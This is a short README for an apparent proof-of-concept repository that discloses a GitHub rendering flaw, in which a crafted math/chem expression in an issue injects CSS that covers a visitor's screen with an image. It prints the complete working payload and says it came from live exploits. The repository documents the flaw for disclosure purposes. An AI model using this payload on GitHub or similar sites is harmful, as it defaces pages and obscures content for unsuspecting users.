 # GithubFullscreenIssuePoC

This repo is to demonstrate an issue with Github that covers the users screen with an image / gif when they visit a custom crafted issue / user profile.

Issue Link / PoC: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC/issues/1)  

Note: Issue as been closed and locked due to abuse by third-party users.  

Issue Source (May contain needless markup - PoC was taken from live exploits):

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
